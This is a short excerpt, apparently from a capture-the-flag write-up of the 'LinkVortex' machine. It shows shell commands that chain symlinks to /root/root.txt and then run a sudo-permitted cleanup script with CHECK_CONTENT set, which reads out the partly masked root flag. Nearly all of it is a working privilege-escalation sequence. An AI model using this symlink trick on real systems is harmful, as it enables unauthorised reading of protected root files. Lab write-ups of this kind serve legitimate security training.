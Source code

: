 ```
bob@linkvortex:/opt/ghost$ mkdir ~/payload/
bob@linkvortex:/opt/ghost$ ln -s -T /root/root.txt ~/payload/file
bob@linkvortex:/opt/ghost$ ln -s -T ~/payload/file ~/payload/file.png
bob@linkvortex:/opt/ghost$ cat ~/payload/file.png 
cat: /home/bob/payload/file.png: Permission denied
```

```
bob@linkvortex:/opt/ghost$ sudo CHECK_CONTENT="true" /usr/bin/bash /opt/ghost/clean_symlink.sh ~/payload/file.png 
Link found [ /home/bob/payload/file.png ] , moving it to quarantine
Content:
69ee55437ca082***************f3
```

> root.txt:69ee55437ca082***************f3
